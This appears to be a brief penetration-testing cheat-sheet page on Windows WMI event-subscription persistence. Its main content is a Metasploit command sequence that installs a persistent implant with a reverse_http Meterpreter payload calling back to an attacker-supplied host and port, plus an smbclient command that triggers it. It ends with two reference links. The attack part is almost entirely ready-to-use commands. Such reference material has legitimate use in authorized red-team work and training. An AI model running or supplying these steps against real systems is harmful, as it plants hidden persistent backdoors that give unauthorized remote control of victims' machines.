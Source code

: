 # Metasploit

TODO: Fill this info

```
msf > use exploit/windows/local/wmi_persistence

set session <session_ID>

set callback_interval 60000

set username_trigger <any_real_username>

set payload windows/x64/meterpreter/reverse_http

set lhost <IP>

set lport <PORT>

run
```

Trigger the implant with `smbclient` or wait for someone to authenticate.

```
$ smbclient //<target_IP>//C$ -U <any_real_username> <any_password>
```

---
## References

- [Liberty Shell: WMI Persistence](https://liberty-shell.com/sec/2019/06/16/wmi-persistence/)

- [Pentestlab: Persistence – WMI Event Subscription](https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/)